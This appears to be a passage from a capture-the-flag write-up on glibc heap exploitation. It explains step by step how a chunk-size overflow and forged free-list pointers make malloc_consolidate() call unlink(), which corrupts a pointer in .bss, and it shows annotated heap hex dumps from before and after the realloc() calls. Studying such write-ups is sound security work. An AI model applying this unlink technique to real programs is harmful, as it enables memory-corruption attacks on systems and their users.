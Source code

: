 
malloc_consolidate() (https://github.com/lattera/glibc/blob/master/malloc/malloc.c#L4058)
tries to coalesce all free chunks in fastbins. The only free chunk in fastbins is the original page 
(as its size is < 0x81; remember we can overflow that). If previous chunk is free then unlink() will
be called which is our final goal:

```c
	if (!prev_inuse(p)) {
	        prevsize = p->prev_size;
	        size += prevsize;
	        p = chunk_at_offset(p, -((long) prevsize));
	        unlink(av, p, bck, fwd);
	}
```


Going back to our attack, first we overflow the size of the original page (with 0x40) (LSB is 0
which means that the previous chunk is free) and we set accordingly the free pointers to point
in .bss where we can find an address that points to the heap (we need to pass the check: fd->bk = P 
&& bk->fd = P).

```
		00603000  00 00 00 00 00 00 00 00  31 00 00 00 00 00 00 00
		00603010  00 00 00 00 00 00 00 00  20 00 00 00 00 00 00 00
name ->	00603020  28 20 60 00 00 00 00 00  30 20 60 00 00 00 00 00
		00603030  20 00 00 00 00 00 00 00  40 00 00 00 00 00 00 00
page ->	00603040  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41
		00603050  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41
		00603060  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41
		00603070  00 00 00 00 00 00 00 00  41 00 00 00 00 00 00 00
title->	00603080  28 20 60 00 00 00 00 00  30 20 60 00 00 00 00 00
		00603090  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00
		006030A0  0A 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00
		006030B0  00 00 00 00 00 00 00 00  31 00 00 00 00 00 00 00
		006030C0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00
		006030D0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00
		006030E0  00 00 00 00 00 00 00 00  21 0F 02 00 00 00 00 00
```

After that, we realloc() the page to large size (500 bytes), and its new address will be at 0x6030F0.
Note here that malloc_consolidate() won't be called at this point. Then we realloc() again the
page with a much smaller size, to make the 2 fake free chunks (the one at name) and the other at initial
page to be coalesced. The chunk will be removed from free list and unlink() will be called.
In the above example we'll "unlink" a pointer at .bss (0x602028+0x18 = 0x602040) which is the pointer
to the name. After realloc() the heap will be:

```
		00603000  00 00 00 00 00 00 00 00  31 00 00 00 00 00 00 00
		00603010  00 00 00 00 00 00 00 00  61 00 00 00 00 00 00 00
name ->	00603020  78 66 DD F7 FF 7F 00 00  78 66 DD F7 FF 7F 00 00
		00603030  20 00 00 00 00 00 00 00  40 00 00 00 00 00 00 00
		00603040  00 00 00 00 00 00 00 00  41 41 41 41 41 41 41 41
page ->	00603050  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41
		00603060  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41
		00603070  60 00 00 00 00 00 00 00  40 00 00 00 00 00 00 00
		00603080  28 20 60 00 00 00 00 00  30 20 60 00 00 00 00 00
		00603090  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00
		006030A0  0A 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00
		006030B0  00 00 00 00 00 00 00 00  31 00 00 00 00 00 00 00
title->	006030C0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00
		006030D0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00
		006030E0  00 00 00 00 00 00 00 00  A1 00 00 00 00 00 00 00
new ->	006030F0  42 41 52 20 42 41 52 20  42 41 52 20 42 41 52 20
page	00603100  42 41 52 20 42 41 52 20  42 41 52 20 42 41 52 20
```